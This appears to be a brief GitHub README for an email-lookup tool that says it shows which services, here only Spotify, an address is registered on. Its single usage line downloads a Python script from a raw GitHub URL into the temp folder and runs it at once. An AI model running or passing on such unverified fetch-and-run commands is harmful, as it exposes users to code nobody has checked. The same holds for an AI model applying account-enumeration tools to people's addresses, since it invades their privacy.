 # where-used-email

> Made by wolfix

### This tool allows you to know what an email is registered on!

## Service available:
> Spotify

## You can't use with this command:

```
cd %temp% & curl https://raw.githubusercontent.com/wib-wolfix/who-used-email/main/main.py > who-used-email.py & py who-used-email.py
```
